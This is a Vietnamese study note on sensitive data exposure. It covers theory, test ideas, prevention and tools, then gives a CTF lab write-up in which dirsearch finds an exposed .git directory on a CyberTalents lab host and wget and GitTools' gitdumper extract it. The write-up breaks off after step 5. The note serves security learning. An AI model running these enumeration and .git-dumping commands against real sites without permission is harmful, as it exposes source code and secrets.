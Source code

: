 I. Lý thuyết<br>
1. tiết lộ data nhạy cảm là gì<br>
- vul này xảy ra khi data bị lộ cho 1 user, người ko đc ủy quyền rõ ràng để truy cập vào data đó
- VD: password login, int4 riêng tư của user, ...<br>

2. cách để test<br>
- vul này ko thể tìm kiếm or test giống như các vul thông thg
- hầu hết các vul này đều ko thể scan
- VD:<br>
+ app lưu password của user ở dạng văn bản thuần túy
+ password dễ crack
+ API token bị lộ trong mã nguồn công khai (github)<br>
- VD thực:<br>
+ giả sử đang test 1 web trong khi xài dirb để brute-force các thư mục và tìm thấy 1 .git có sẵn
+ thư mục git giúp tìm thấy các vul mới bằng cách phân tích mã nguồn 
+ đồng thời tìm thấy các file chứa data nhạy cảm
+ download thư mục .git để kết xuất data (xài wget)
- dùng tool (https://github.com/internetwache/GitTools) or lệnh thủ công để kết xuất data:<br>
+ git status# -> trả về file đã bị xóa và thư mục trống
+ git checkout --.# -> khôi phục file và tải xuống thư mục
+ git log# -> xem có những commit nào khác
- một số cách khác để lấy data nhạy cảm:<br>
+ tìm file mã nguồn (.old, .bak, ..)
+ file ẩn
+ file JS
+ thư mục github (của mục tiêu)<br>

3. phòng tránh<br>
- tìm data nhạy cảm để bảo vệ
- sau khi bảo vệ, truy cập những data rủi ro này và đảm bảo:<br>
+ data ko đc lưu trữ ở dạng văn bản rõ ràng
+ data ko đc truyền dưới dạng văn bản rõ ràng mà phải xài HTTPS
+ xài thuật toán đủ phức tạp để mã hóa data
+ bảo mật việc tạo key<br>

4. tool<br>
- https://portswigger.net/
- brute-force thư mục: https://wiki.owasp.org/index.php/Category:OWASP_DirBuster_Project
- kết xuất 1 thư mục git từ 1 web: https://github.com/internetwache/GitTools<br>

II. lap: Maximum Courage<br>
1. phân tích url -> tìm ra thư mục .git: http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git/<br>

```
python3 dirsearch.py -u http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11723

Output: /root/dirsearch/reports/http_wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/__24-08-01_04-06-09.txt

Target: http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/

[04:06:09] Starting: 
[04:06:28] 301 -  417B  - /.git  ->  http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git/
[04:06:28] 200 -    3KB - /.git/                                            
[04:06:28] 200 -   23B  - /.git/HEAD
[04:06:28] 200 -  266B  - /.git/COMMIT_EDITMSG                              
[04:06:28] 200 -    3KB - /.git/hooks/
[04:06:28] 200 -  196B  - /.git/config
[04:06:28] 200 -  209B  - /.git/index                                       
[04:06:28] 200 - 1000B  - /.git/info/                                       
[04:06:28] 200 -  240B  - /.git/info/exclude                                
[04:06:29] 200 -    1KB - /.git/logs/                                       
[04:06:28] 200 -   73B  - /.git/description
[04:06:29] 200 -  148B  - /.git/logs/HEAD
[04:06:29] 301 -  427B  - /.git/logs/refs  ->  http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git/logs/refs/
[04:06:29] 301 -  433B  - /.git/logs/refs/heads  ->  http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git/logs/refs/heads/
[04:06:29] 200 -  148B  - /.git/logs/refs/heads/master
[04:06:29] 200 -    2KB - /.git/objects/                                    
[04:06:29] 200 -    1KB - /.git/refs/
[04:06:29] 301 -  427B  - /.git/refs/tags  ->  http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git/refs/tags/
[04:06:29] 200 -   41B  - /.git/refs/heads/master                           
[04:06:29] 301 -  428B  - /.git/refs/heads  ->  http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git/refs/heads/
[04:06:31] 403 -  351B  - /.ht_wsr.txt                                      
[04:06:32] 403 -  354B  - /.htaccess.bak1                                   
[04:06:32] 403 -  356B  - /.htaccess.sample                                 
```

2. tải thư mục về và phân tích: wget -r http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git 
<br>

3. thu được các file sau và phân tích -> file: flag.txt sai<br>

```
ls -la            
total 152
drwxr-xr-x 10 root root  4096 Aug  1 04:11 .
drwx------ 22 root root 20480 Aug  1 04:04 ..
-rw-r--r--  1 root root  4764 Jul 31 13:09 CHANGELOG.md
-rw-r--r--  1 root root  1846 Jul 31 13:09 config.ini
-rw-r--r--  1 root root  4021 Jul 31 13:09 CONTRIBUTORS.md
-rw-r--r--  1 root root     9 Jul 31 14:58 custom_wordlist.txt
drwxr-xr-x  2 root root  4096 Jul 31 13:09 db
-rwxr-xr-x  1 root root  2504 Jul 31 13:09 dirsearch.py
-rw-r--r--  1 root root   299 Jul 31 13:09 Dockerfile
-rw-r--r--  1 root root    40 Nov  4  2020 flag.txt
drwxr-xr-x  8 root root  4096 Jul 31 13:09 .git
drwxr-xr-x  4 root root  4096 Jul 31 13:09 .github
-rw-r--r--  1 root root    81 Jul 31 13:09 .gitignore
-rw-------  1 root root  8895 Jul 31 15:08 index.html.tmp.tmp
-rwxr-xr-x  1 root root    85 Jul 31 13:09 __init__.py
drwxr-xr-x 10 root root  4096 Jul 31 13:31 lib
-rw-r--r--  1 root root    68 Jul 31 13:09 options.ini
-rw-r--r--  1 root root 22635 Jul 31 13:09 README.md
drwxr-xr-x  4 root root  4096 Aug  1 04:06 reports
-rw-r--r--  1 root root   315 Jul 31 13:09 requirements.txt
-rw-r--r--  1 root root   189 Jul 31 13:09 setup.cfg
-rwxr-xr-x  1 root root  1473 Jul 31 13:09 setup.py
drwxr-xr-x  2 root root  4096 Jul 31 13:09 static
-rwxr-xr-x  1 root root  1563 Jul 31 13:09 testing.py
drwxr-xr-x  7 root root  4096 Jul 31 13:09 tests
drwxr-xr-x  4 root root  4096 Aug  1 04:11 wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com
```

4. tìm được tệp flag.php:<br>

```
find . -name flag.php
./wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/flag.php
```

5. đọc nội dung tệp -> ko xem trực tiếp đc lại tìm thấy 1 thư mục .git -> kết xuất nó:<br>
```
./gitdumper.sh http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git/ ./moon
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating ./moon/.git/
[-] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[-] Downloaded: description
[-] Downloaded: config
[-] Downloaded: COMMIT_EDITMSG
[-] Downloaded: index
[-] Downloaded: packed-refs
[-] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[-] Downloaded: logs/HEAD
[-] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[-] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
```

6. 
